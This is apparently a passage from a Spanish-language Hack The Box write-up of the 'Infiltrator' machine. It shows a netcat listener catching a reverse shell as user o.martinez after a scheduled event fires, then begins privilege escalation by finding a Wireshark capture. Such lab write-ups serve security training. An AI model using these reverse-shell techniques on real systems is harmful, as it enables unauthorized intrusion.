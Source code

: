 Verificamos que se ha creado correctamente el evento. Deberemos de esperar a que el tiempo transcurra y verificar si funciona o no.&#x20;

{% hint style="info" %}
_En nuestro caso, intentamos adelantar la hora de Windows manualmente, y por x motivos a veces funcionaba y otras no._
{% endhint %}

<figure><img src="../../../.gitbook/assets/imagen (27).png" alt=""><figcaption></figcaption></figure>

Después de diversas pruebas, logramos obtener una Shell como usuario `O.martinez@infiltrator.htb`.

```bash
❯ rlwrap -cAr nc -nlvp 444
listening on [any] 444 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.31] 53306
Microsoft Windows [Version 10.0.17763.6189]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
infiltrator\o.martinez
```

## Privilege Escalation

### Analyzing a Wireshark PCAP File

Revisamos en el directorio `AppData` del usuario actual si había algún tipo de información interesante. Comprobando en varios directorios, nos encontramos con un archivo de una captura de `Wireshark`.
